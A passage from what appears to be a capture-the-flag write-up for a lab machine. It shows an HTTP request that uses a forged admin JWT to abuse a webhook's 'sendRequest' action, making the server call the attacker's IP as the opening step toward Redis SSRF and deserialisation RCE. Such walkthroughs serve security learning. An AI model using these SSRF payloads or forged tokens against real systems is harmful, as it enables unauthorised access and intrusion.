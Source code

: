 Using this token, we can then access the `/webhooks` endpoint:

<figure><img src="../../.gitbook/assets/image (4198).png" alt=""><figcaption></figcaption></figure>

### Redis SSRF --> Deserialisation RCE

> Had some help here.

Now that we can create our own webhooks, we create a webhook with the `action` parameter set to `sendRequest`:

<figure><img src="../../.gitbook/assets/image (4199).png" alt=""><figcaption></figcaption></figure>

Using this, we can then send requests from the server:

```http
POST /webhooks/6b1bca72-ecdd-4066-9cd9-8e739334eea1 HTTP/1.1
Host: webhooks-api-beta.cybermonday.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
x-access-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.hsjDWoGJbgx_ygJe9nlfu4dNZHUZuF3Igy43NfKQ7aE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 51



{"url":"http://10.10.14.32/iamssrf","method":"GET"}
```
